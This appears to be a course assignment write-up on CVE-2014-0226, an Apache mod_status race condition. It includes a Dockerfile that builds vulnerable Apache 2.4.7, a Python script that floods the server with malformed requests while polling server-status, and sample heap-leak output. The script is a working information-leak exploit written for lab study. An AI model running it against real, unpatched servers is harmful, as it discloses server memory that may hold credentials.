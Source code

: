 # PS
- Bug Overview: Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.
- Aim: Write a working exploit for this CVE.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


# Bug overview

# Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like
![](server1.png)
![](server2.png)



# Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception, e:
        print e
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```


# Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap
```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 

